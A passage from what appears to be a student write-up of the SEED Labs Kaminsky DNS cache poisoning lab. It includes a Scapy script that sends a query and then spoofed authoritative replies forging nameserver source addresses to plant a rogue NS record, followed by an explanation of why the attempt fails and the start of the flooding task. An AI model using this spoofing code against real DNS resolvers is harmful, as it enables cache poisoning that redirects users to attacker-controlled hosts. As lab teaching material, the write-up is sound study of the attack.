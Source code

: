 ```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'www.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# Send request
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=port, chksum=0)
request = ip/udp/dns

send(request)

# Send spoofed replies 
for ipns in nsIPs:
    Qdsec = DNSQR(qname=name)
    Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
    NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
    dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
        qd=Qdsec, an=Anssec, ns=NSsec)
    ip = IP(dst=apoloIP, src=ipns)
    udp = UDP(dport=33333, sport=53, chksum=0)
    reply = ip/udp/dns
    send(reply)
```

The request can be seen in packet number 3, and the spoofed replies can be seen in packets number 6 and 7 in the [capture file](logs/task3.pcapng).

Note that the transaction ID used in this task is `0xAAAA` which will be different from the one used in the actual request. This causes the spoof attempt to fail. This will be addressed in the next task. One other thing that also restricts the success of the spoofed reply is that the spoofed packets, as can be seen in the capture file, are sent too early, therefore they will be classified as illegitimate. 

## Task 4 - Launch the Kaminsky Attack

The last step is to put the attack into action: flood the target local DNS server with these spoofed replies. As stated in the Seed Labs guide, the python script might be too slow to carry on this attack. To fix this issue, we were given a code skeleton for the C code for us to fill, which is much faster. Using a hybrid approach, we first use Scapy to generate a DNS packet template, which is stored in a file. We then load this template into a C program, make small changes to some of the fields, and then send out the packet. 

In the python script, we didn't make many changes. The ones that are important to mention are the writing of the request to a file named `ip_req.bin` and the spoofed response packet to a file named `ip_resp.bin`:
